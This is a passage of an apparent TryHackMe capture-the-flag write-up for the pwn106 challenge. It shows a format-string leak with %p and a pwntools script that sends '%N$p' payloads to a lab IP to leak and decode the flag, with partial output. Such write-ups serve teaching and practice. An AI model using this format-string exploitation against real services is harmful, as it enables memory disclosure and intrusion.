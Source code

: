 ```c
  }
  return;
}
```

Running the code we try to leak the address of a pointer using `%p` and it works

```shell
pl4int3xt@archlinux ~/D/p/pwn106> ./pwn106user.pwn106-user
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 107          

🎉 THM Giveaway 🎉

Enter your THM username to participate in the giveaway: %p

Thanks 0x7ffcf1b61960
```

So we write a python code to try to loop and leak for addresses and try to unhex them to get the flag and reverse it.

```python
from pwn import *

exe = './pwn106user.pwn106-user'
elf = context.binary = ELF(exe, checksec=False)

# Let's fuzz 15 values
for i in range(15):
    try:
        # Create process (level used to reduce noise)
        p = remote("10.10.207.244", 9006)
        p.sendlineafter(b': ', '%{}$p'.format(i).encode("utf-8"))
        p.recvuntil(b'Thanks')
        hex = p.recvline()
        hex = hex[3:-1]

        try:
            decode = unhex(hex)
            print(i, decode[::-1])
        except:
            pass

        p.close()
    except EOFError:
        pass
```

Running the code we get the flag between the range `6 - 11`

```shell
pl4int3xt@archlinux ~/D/p/pwn106> python3 pwn106.py
[+] Opening connection to 10.10.207.244 on port 9006: Done
[*] Closed connection to 10.10.207.244 port 9006
[+] Opening connection to 10.10.207.244 on port 9006: Done
1 b'\x10\x96\x9by\xff\x7f'
[*] Closed connection to 10.10.207.244 port 9006
[+] Opening connection to 10.10.207.244 on port 9006: Done
2 b'\xc0\xc8\x94\xf7\xc4\x7f'
[*] Closed connection to 10.10.207.244 port 9006
[+] Opening connection to 10.10.207.244 on port 9006: Done
[*] Closed connection to 10.10.207.244 port 9006
[+] Opening connection to 10.10.207.244 on port 9006: Done
[*] Closed connection to 10.10.207.244 port 9006
```
